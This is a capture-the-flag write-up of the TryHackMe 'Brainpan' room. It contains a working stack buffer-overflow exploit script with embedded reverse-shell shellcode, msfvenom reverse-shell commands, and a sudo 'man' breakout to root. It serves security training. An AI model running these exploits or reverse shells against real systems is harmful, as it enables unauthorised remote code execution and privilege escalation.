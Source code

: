 ```yaml
---
title: Box - Brainpan1
published: true
---
```


Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.

[https://tryhackme.com/room/brainpan](https://tryhackme.com/room/brainpan)

![0xskar](/assets/brainpan01.jpg)

* * *

## Task 1 - Deploy and compromise the machine 

> Brainpan is perfect for OSCP practice and has been highly recommended to complete before the exam. Exploit a buffer overflow vulnerability by analyzing a Windows executable on a Linux machine. If you get stuck on this machine, don't give up (or look at writeups), just try harder. 

##  Nmap Scan

| PORT | STATE | SERVICE | REASON |
|------|-------|---------|--------|
| 9999/tcp | open | abyss | syn-ack ttl 61 |
| 10000/tcp | open | snet-sensor-mgmt SimpleHTTPServer 0.6 (Python 2.7.3) | syn-ack ttl 61 |

* * * 

##  Port 9999

- brainpan program needs password to continue can connect to this with netcat

* * * 

##  Port 10000

- SimpleHTTPServer 0.6 (Python 2.7.3)
- ``gobuster dir -u http://10.10.100.24:10000/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x html,php,txt --no-error -t 100``
- in /bin we find brainpan.exe

* * * 

##  Buffer Overflow

- Open brainpan.exe in immunity and set working folder
- ``!mona config -set workingfolder c:\mona\%p``
- We can send through 5000 a's with our a.py ``print("A" *5000)``
- We have an EBP and EIP overwrite so we should be able to overflow the buffer and and ECX Shitstorm!?

![0xskar](/assets/brainpan02.png)

- Finding the offset
- ``msf-pattern_create -l 5000`` and send and note the EIP "35724134"

![0xskar](/assets/brainpan03.png)

- ``msf-pattern_offset -l 5000 -q 35724134``
- we have an exact match at offset 524
- Now we can edit our code to send payloads so we can find badchars.

```python
import socket
import sys

offset = 524
payload = b"A" * offset + b"B" * 4

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.send(payload + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- we control the EIP as its overwritten with our B's 42424242
- now we can find the badchars
- create bytearray in immunity ``!mona bytearray -b "\x00"`` and update our code with badchars variable

```shell
import socket
import sys

offset = 524
payload = b"A" * offset + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.send(payload + badchars + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- restart brainpan in immunity and run exploit again and note the address that ESP registers
- **0022F930**
- run memory comparison in mona ``!mona compare -f C:\mona\brainpan\bytearray.bin -a 0022F930``
- we dont seen to have any badchars the shellcode returns Unmodified...

- try to find jump point with our badchars
- ``!mona jmp -r esp -cpb "\x00``

![0xskar](/assets/brainpan04.png)

- 311712F3 Jump Point
- Convert to little endian ``\xf3\x12\x17\x31``
- Generate shellcode with badchars... since this is a linux machine try linux shellcode? and try on target?
- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=4444 EXITFUNC=thread -b "\x00" -f c``
- update target IP and little endian and shellcode and lets see what happens

```python
import socket
import sys

offset = 524
payload = b"A" * offset + b"\xf3\x12\x17\x31" + b"\x90" * 32
shellcode = (b"\xb8\xea\xb3\xa8\x25\xdb\xd9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
b"\x52\x83\xea\xfc\x31\x42\x0e\x03\xa8\xbd\x4a\xd0\xd0\x2a\x08"
b"\x1b\x28\xab\x6d\x95\xcd\x9a\xad\xc1\x86\x8d\x1d\x81\xca\x21"
b"\xd5\xc7\xfe\xb2\x9b\xcf\xf1\x73\x11\x36\x3c\x83\x0a\x0a\x5f"
b"\x07\x51\x5f\xbf\x36\x9a\x92\xbe\x7f\xc7\x5f\x92\x28\x83\xf2"
b"\x02\x5c\xd9\xce\xa9\x2e\xcf\x56\x4e\xe6\xee\x77\xc1\x7c\xa9"
b"\x57\xe0\x51\xc1\xd1\xfa\xb6\xec\xa8\x71\x0c\x9a\x2a\x53\x5c"
b"\x63\x80\x9a\x50\x96\xd8\xdb\x57\x49\xaf\x15\xa4\xf4\xa8\xe2"
b"\xd6\x22\x3c\xf0\x71\xa0\xe6\xdc\x80\x65\x70\x97\x8f\xc2\xf6"
b"\xff\x93\xd5\xdb\x74\xaf\x5e\xda\x5a\x39\x24\xf9\x7e\x61\xfe"
b"\x60\x27\xcf\x51\x9c\x37\xb0\x0e\x38\x3c\x5d\x5a\x31\x1f\x0a"
b"\xaf\x78\x9f\xca\xa7\x0b\xec\xf8\x68\xa0\x7a\xb1\xe1\x6e\x7d"
b"\xb6\xdb\xd7\x11\x49\xe4\x27\x38\x8e\xb0\x77\x52\x27\xb9\x13"
b"\xa2\xc8\x6c\xb3\xf2\x66\xdf\x74\xa2\xc6\x8f\x1c\xa8\xc8\xf0"
b"\x3d\xd3\x02\x99\xd4\x2e\xc5\xac\x2a\x4f\xf4\xd9\x28\xaf\xe7"
b"\x45\xa4\x49\x6d\x66\xe0\xc2\x1a\x1f\xa9\x98\xbb\xe0\x67\xe5"
b"\xfc\x6b\x84\x1a\xb2\x9b\xe1\x08\x23\x6c\xbc\x72\xe2\x73\x6a"
b"\x1a\x68\xe1\xf1\xda\xe7\x1a\xae\x8d\xa0\xed\xa7\x5b\x5d\x57"
b"\x1e\x79\x9c\x01\x59\x39\x7b\xf2\x64\xc0\x0e\x4e\x43\xd2\xd6"
b"\x4f\xcf\x86\x86\x19\x99\x70\x61\xf0\x6b\x2a\x3b\xaf\x25\xba"
b"\xba\x83\xf5\xbc\xc2\xc9\x83\x20\x72\xa4\xd5\x5f\xbb\x20\xd2"
b"\x18\xa1\xd0\x1d\xf3\x61\xf0\xff\xd1\x9f\x99\x59\xb0\x1d\xc4"
b"\x59\x6f\x61\xf1\xd9\x85\x1a\x06\xc1\xec\x1f\x42\x45\x1d\x52"
b"\xdb\x20\x21\xc1\xdc\x60")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('10.10.77.70',9999))
      s.send(payload + shellcode + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

* * * 

##   Answer the questions below

**Gain initial access**

![0xskar](/assets/brainpan05.png) 

**Escalate your privileges to root.**

- generate new linux shellcode and send
- ``msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.x.x.x LPORT=9999 -f c -a x86 --platform linux -b "\x00"``
- upgrade shell 

```shell
python -c 'import pty;pty.spawn("/bin/bash")' 
export TERM=xterm 
```

- sudo -l gives us ``/home/anansi/bin/anansi_util`` which lets us run man as sudo
- https://gtfobins.github.io/gtfobins/man/#sudo
- break out with a root shell!

![0xskar](/assets/brainpan07.png)

* * * 